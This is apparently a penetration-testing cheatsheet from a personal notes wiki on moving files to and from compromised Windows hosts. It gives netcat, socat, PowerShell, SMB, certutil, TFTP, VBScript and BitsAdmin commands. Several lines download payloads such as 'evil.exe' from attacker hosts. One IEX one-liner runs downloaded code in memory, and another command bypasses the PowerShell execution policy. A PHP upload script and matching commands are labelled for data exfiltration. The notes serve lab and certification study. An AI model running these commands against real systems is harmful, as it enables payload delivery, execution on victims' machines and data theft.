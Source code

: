 # Windows File Transfers
Check out [[Kali-Windows-Resources]] for selection of binaries and such to transfer! Other methods for [[File-Transfers]].

## FTP download
```bash
# copy a binary to /ftphome/; serve the binary on attackbox local ftp server then connect with target
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
sudo systemctl restart pure-ftpd
```

## Netcat
[[Netcat-Cheatsheet]]
```powershell
# Listener on Windows system
nc -lvnp $PORT > tranfered.exe
# Push wget.exe onto windows system
nc -nv $IP $PORT < /usr/share/windows-resources/binaries/wget.exe
```

## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat
Use [[Socat-Cheatsheet]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```

## Powershell
```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$bad.exe','$bad.exe')"
```
Or
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$bad.exe','$bad.exe')
```
Download and execute without saving to disk
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://$IP:$PORT/$bad.exe')`
```

## Non interactive Powershell
```powershell
echo $storageDir = $pwd > wget.ps1   
echo $webclient = New-Object System.Net.WebClient >> wget.ps1   
echo $url = "http://$IP:$PORT/$bad.exe" >> wget.ps1   
echo $file = "$bad.exe" >> wget.ps1   
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```
Then
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## SMB with Impacket
[[Impacket-Cheatsheet]]
```bash
impacket-smbserver scriptserver $(pwd) #-smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```

```powershell
copy \$IP\ROPNOP\exploit.exe
#Or
xcopy \\$ip\scriptserver\$scriptname-here
```

## CertUtil
```powershell
certutil.exe -urlcache -split -f "http://$IP/$FILE"
certutil.exe -urlcache -split -f "http://$IP/$FILE" C:\Windows\Temp\$file
```

**TFTP** (Installed by default up to Windows XP and 2003, In Windows 7, 2008 and above needs to be explicitly added. For this reason tftp not ideal file transfer protocol in most situations.) [ref](https://github.com/pythonmaster41/Go-For-OSCP)
```powershell
# On attacker machine:
mkdir /tftp
chwon nobody: /tftp
atftpd --deamon --port 69 tftp
cp $FILE tftp
# On Windows:
tftp -i $IP GET $FILE
tftp -i $IP PUT $FILE
```

## Windows-File-transferVBS-script
BEWARE: "If creating on Linux and then transferto windows then you may face issue sometime, use unix2dos before you transfer it in this case." 
Hakluke.
```vb
# wget.bs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Run with:
```powershell
cscript wget.vbs http://attackerip/evil.exe evil.exe
```

## exe2hex plus Powershell
Have a `.exe` convert into a hex string:
```bash
# Transform binary making it non-interactive 
exe2hex -x nc64.exe -p nc.cmd
```
Good old copy and paste into a shell on Windows machine.

## UPX

Debug `.exe` (32bit machines only) filessize < 64kb!
```powershell
upx -9 nc.exe
wine exe2bat.exe nc.exe nc.txt
```

## PHP script - Upload HTTP Server for Data Exfiltration

Host a http server, make directory owned by www-data
```bash
mkdir /var/www/uploads -p
chown www-data: /var/www/uploads 
```
Script to placed in /uploads/
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Exfiltrate your way to a great day!
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://$IP/upload.php', 'bad.exe')
```

## TFTP Upload Server for Data Exfiltration
```bash
apt install atftp
mkdir /tfp
shown nobody: /tftp
atftpd --daemon --port 69 /tftp
```

```powershell
tftp -i $ip put bigExfiltratedDataFile.nowmine
```

## Powercat
See [[Powercat-Cheatsheet]] for more, but to file transfers with powercat:
```powershell
powercat -c 10.10.10.10 -p 54321 -i C:\Users\Administrator\powercat.ps1
```


## BitsAdmin
[BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) 
```shell-session
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
```


## References
[hakluke](https://hakluke.medium.com/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97)
[pythonmaster41](https://github.com/pythonmaster41/Go-For-OSCP)
[hackersinterview](https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/)
[THM Room Living off the Land](https://tryhackme.com/room/livingofftheland)
[sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/transfering_files_to_windows.html)